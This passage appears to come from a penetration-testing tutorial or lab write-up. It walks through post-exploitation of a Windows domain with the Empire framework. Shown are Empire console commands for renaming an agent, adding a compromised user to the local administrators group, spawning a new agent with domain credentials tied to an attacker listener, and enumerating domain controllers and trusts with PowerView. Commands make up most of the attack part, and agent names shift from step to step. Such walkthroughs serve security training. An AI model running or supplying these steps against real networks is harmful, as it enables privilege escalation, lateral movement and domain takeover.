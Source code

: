```
(Empire) > interact HRWTGSWH1H4TGHEK
(Empire: HRWTGSWH1H4TGHEK) > rename wkAgent
(Empire: wkAgent) >
```

Next, verify that the initially compromised account (user) is not listed as a local administrator. Add the compromised user to the local administrators group:

```
(Empire: wkAgent) > shell net localgroup administrators
(Empire: wkAgent) > shell net localgroup administrators /add username
The command completed successfully.
```

The wk_admin agent remains active for performing various actions on the workstation, such as listing folders or retrieving files. However, its scope is limited to this single workstation.

To communicate with the Windows Active Directory Domain and deepen network infiltration, we need an agent with valid domain credentials. Spawn a new agent using the elevated user’s credentials to gain broader access:

```
(Empire: wk_agent) > usemodule management/spawnas
(Empire: spawnas) > set UserName user
(Empire: spawnas) > set Password Password123
(Empire: spawnas) > set Domain SHOP
(Empire: spawnas) > set Listener AttackSrv_List
(Empire: spawnas) > set Agent wkAgent
(Empire: spawnas) > run
```

With the user’s agent, use the get_domain_controller module to identify the domain controllers within the SHOP domain:

```
(Empire: UsrAgent) > usemodule situational_awareness/network/powerview/get_domain_controller
(Empire: get_domain_controller) > execute
```

The output will show two domain controllers: SV0198 and SV0199.

To further explore the network, use the get_domain_trust module to map out trust relationships between domains:

```
(Empire: UsrAgent) > usemodule situational_awareness/network/powerview/get_domain_trust
(Empire: get_domain_trust) > run
```

A trust relationship allows one domain to trust and permit users from another domain to connect to its resources. The output will indicate the type of trust and its direction. For instance, a "Bidirectional" trust means that trust is mutual, while an "External" trust signifies that domains are part of separate forests. If we compromise the SHOP domain, we'll need to separately target each forest for access to other domains.

Note on Trust Types:

- External Trust: Domains are in separate forests with no inherent links.
